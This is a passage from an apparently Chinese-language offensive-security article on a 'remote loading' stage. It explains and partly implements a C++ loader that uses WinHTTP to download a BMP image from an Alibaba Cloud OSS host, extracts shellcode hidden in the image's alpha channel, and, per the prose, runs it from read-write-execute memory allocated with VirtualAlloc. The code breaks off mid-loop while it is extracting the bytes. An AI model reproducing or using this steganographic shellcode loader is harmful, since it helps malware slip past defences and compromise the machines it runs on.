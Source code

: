 ![img](https://cdn.nlark.com/yuque/0/2020/png/262397/1597286914815-2665d6c2-69c4-40f4-9139-cc9580b1e61c.png)

#### 三、远程加载

这里用WinHTTP库将上传在阿里云oss域名上的bmp图片内容远程读取到字符串中并获取alpha通道中隐藏的字节拼接shellcode，然后使用[VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)为shellcode分配内存。重要的是要注意，此内存页当前具有读取，写入和执行权限。之后，使用[memcpy](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/memcpy-wmemcpy?view=vs-2019)将shellcode移到新分配的内存页面中。最后，执行shellcode。

```
void download(const wchar_t *Url, const wchar_t *FileName, DownLoadCallback Func)
{
	URL_INFO url_info = { 0 };
	URL_COMPONENTSW lpUrlComponents = { 0 };
	lpUrlComponents.dwStructSize = sizeof(lpUrlComponents);
	lpUrlComponents.lpszExtraInfo = url_info.szExtraInfo;
	lpUrlComponents.lpszHostName = url_info.szHostName;
	lpUrlComponents.lpszPassword = url_info.szPassword;
	lpUrlComponents.lpszScheme = url_info.szScheme;
	lpUrlComponents.lpszUrlPath = url_info.szUrlPath;
	lpUrlComponents.lpszUserName = url_info.szUserName;

	lpUrlComponents.dwExtraInfoLength =
		lpUrlComponents.dwHostNameLength =
		lpUrlComponents.dwPasswordLength =
		lpUrlComponents.dwSchemeLength =
		lpUrlComponents.dwUrlPathLength =
		lpUrlComponents.dwUserNameLength = 512;

	WinHttpCrackUrl(Url, 0, ICU_ESCAPE, &lpUrlComponents);

	HINTERNET hSession = WinHttpOpen(NULL, WINHTTP_ACCESS_TYPE_NO_PROXY, NULL, NULL, 0);
	DWORD dwReadBytes, dwSizeDW = sizeof(dwSizeDW), dwContentSize, dwIndex = 0;
	HINTERNET hConnect = WinHttpConnect(hSession, lpUrlComponents.lpszHostName, lpUrlComponents.nPort, 0);
	HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"HEAD", lpUrlComponents.lpszUrlPath, L"HTTP/1.1", WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_REFRESH);
	WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
	WinHttpReceiveResponse(hRequest, 0);
	WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_CONTENT_LENGTH | WINHTTP_QUERY_FLAG_NUMBER, NULL, &dwContentSize, &dwSizeDW, &dwIndex);
	WinHttpCloseHandle(hRequest);

	hRequest = WinHttpOpenRequest(hConnect, L"GET", lpUrlComponents.lpszUrlPath, L"HTTP/1.1", WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_REFRESH);
	WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
	WinHttpReceiveResponse(hRequest, 0);

	BYTE *pBuffer = NULL;
	pBuffer = new BYTE[dwContentSize];
	ZeroMemory(pBuffer, dwContentSize);
	do {
		WinHttpReadData(hRequest, pBuffer, dwContentSize, &dwReadBytes);
		Func(dwContentSize, dwReadBytes);
	} while (dwReadBytes == 0);
	//cout << pBuffer << endl;
	BITMAPFILEHEADER *pHdr = (BITMAPFILEHEADER *)pBuffer;
	LPBYTE pStr = pBuffer + pHdr->bfOffBits + 3;
	char szTmp[1900];
	RtlZeroMemory(szTmp, 1900);
	for (int i = 0; i < 1900; i++)
	{
```